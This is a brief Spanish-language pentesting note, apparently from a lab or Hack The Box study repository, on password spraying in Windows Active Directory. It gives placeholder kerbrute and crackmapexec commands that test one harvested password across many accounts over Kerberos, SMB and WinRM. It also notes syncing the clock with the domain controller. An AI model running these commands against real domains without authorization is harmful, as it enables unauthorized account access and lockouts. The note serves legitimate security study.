 
## DESCRIPTION

Una vez que tenemos un usuario y una contraseña es recomendable probar esa contraseña para otros usuarios y en distintos servicios.
En Windows se recomienda probar esa contraseña para otros usuarios en:
* Kerberos
* SMB
* WinRM
* RPC Client
* LDAP

#### Mas información
* [Password Spraying - HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/password-spraying)

## EXPLOITATION

```
# Kerbrute
/kerbrute_linux_amd64 passwordspray -d <<DOMINIO>> [--dc <<IP DEL DOMINIO>> <<LISTA DE USUARIOS>> <<Contraseña>>

# SMB / WinRM

crackmapexec smb <<DC IP or CIDR range>> <<smb/winrm>> -u <<username file>> -p <<password file>> --no-bruteforce --continue-on-success
```

**!!NOTA IMPORTANTE!!**  Si falla el comando de KERBRUTE TRY y sync your attack machine time with the time of the domain controller because kerberos authentication requires that the times be synced:
-   `ntpdate <DC IP>`

## MACHINES

* Hack The Box: 
